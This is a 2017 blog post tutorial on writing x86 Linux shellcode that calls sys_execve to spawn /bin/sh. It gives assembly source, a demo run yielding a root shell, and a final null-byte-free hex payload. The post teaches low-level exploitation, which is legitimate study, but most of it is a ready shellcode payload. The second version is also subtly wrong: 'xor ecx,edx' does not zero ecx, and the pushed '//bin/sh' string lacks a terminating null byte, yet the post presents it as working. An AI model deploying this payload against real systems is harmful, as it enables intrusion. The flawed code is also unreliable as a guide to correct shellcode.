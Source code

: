 ```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
disqus: true
categories: Reversing
---
```

<b><font color="red">I'm using a x64 linux to do this</font></b>

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
section .text:
	global _start
	_start:
		push ebp		;prologue
		mov ebp,esp		;prologue
		sub esp,10		;reserve 10 bytes on stack
		push 0x68732f6e		;send hs/n to stack
		push 0x69622f2f		;send ib// to stack
		xor eax,eax		;zero to eax
		add eax,0x0b		;add 0x0b on eax to call sys_execve
		mov ebx,esp		;mov //bin/sh(hs/nib//) to ebx
		xor edx,edx		;zero to edx first arg
		xor ecx,edx		;zero ecx second arg
		int 0x80		;kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I used this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes or just use objdump, and now I have a shellcode free of nullbytes with 23 bytes because the shellcode does not need the prologue

{% highlight Bash %}
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x31\xc0\x83\xc0\x0b\x89\xe3\x31\xd2\x31\xd1\xcd\x80
{% endhighlight %}
